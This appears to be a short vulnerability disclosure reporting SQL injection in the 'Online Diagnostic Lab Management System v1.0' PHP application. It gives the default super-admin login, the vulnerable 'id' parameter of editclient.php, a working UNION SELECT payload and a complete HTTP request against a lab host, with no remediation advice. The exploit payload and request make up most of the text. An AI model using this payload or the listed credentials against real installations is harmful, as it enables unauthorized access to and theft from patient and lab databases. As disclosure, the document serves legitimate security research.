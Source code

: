 # Online Diagnostic Lab Management System v1.0 by mayuri_k has SQL injection

BUG_Author: f0ward

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15667/online-diagnostic-lab-management-system-using-php-and-mysql-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /diagnostic/editclient.php?id=

Vulnerability location: /diagnostic/editclient.php?id=, id

dbname = diagnostic

[+] Payload: /diagnostic/editclient.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ // Leak place ---> id

```sql
GET /diagnostic/editclient.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=flklolh755oivesj89eu5fo2c7
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191399707-40c9b48e-6126-4a9a-94bc-4e27b1121271.png)
